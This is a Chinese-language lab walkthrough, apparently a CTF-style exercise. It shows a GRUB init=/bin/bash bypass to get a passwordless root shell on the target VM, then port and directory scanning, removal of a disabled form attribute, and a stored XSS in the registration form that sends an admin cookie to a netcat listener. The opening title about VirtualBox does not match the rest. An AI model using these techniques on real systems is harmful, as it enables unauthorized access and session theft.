window7或者2019安装virtual box

------

## 🔹 操作步骤

### 1. 重启进入 GRUB 菜单

- 启动时按住 **Shift**（BIOS）或 **Esc**（UEFI），直到出现 GRUB 菜单。
- 如果机器直接进系统，可能需要在启动时一直狂按 `Shift`。

------

### 2. 编辑 GRUB 启动参数

- 在 GRUB 菜单上选中你要启动的内核行（一般是第一项），**不要回车**。
- 按 **e** 进入编辑模式。

------

### 3. 修改内核启动参数

找到这一行（大概是这样的）：

```
linux   /boot/vmlinuz-xxx root=/dev/sda1 ro quiet
```

把里面的 `ro quiet` 改成：

```
rw init=/bin/bash
```

意思是：以读写模式挂载根分区，并直接执行 bash。

------

### 4. 启动到单用户模式

按 **Ctrl + X** 或 **F10** 启动。
 系统会直接进入一个 **root shell**，不需要密码。

------

### 5. 修改网卡设置

```
vi /etc/network/interfaces
exec /sbin/init
```

### 6.成功扫描到ip地址



### 7.端口扫描



### 访问80端口，有注册和登录界面

```
无法注册，不知道账号和密码
```



```
查看源码，发现是disabled 的原因，删除disabled
```



#### 成功注册


#### 但是无法登录，账号没有被激活




### 尝试从其他地方入手，进行目录扫描或者爆破

#### 目录扫描：



```
/admin 没有权限
/robots.txt提示 /admin/admin.php
```



```
访问 http://192.168.126.132/admin/admin.php   似乎是别人的登录信息,并且有我们刚刚注册的信息
```



尝试激活，但是没有权限



```
这里尝试了一下爆破，发现不是弱口令
注册后信息可以在/admin/admin.php看到
可以尝试是不是存储型xss
尝试在注册界面注入
```

```
<script>document.write('');</script> 
```



后台收到cookie

```
nc -lvnp 5533
```




# 


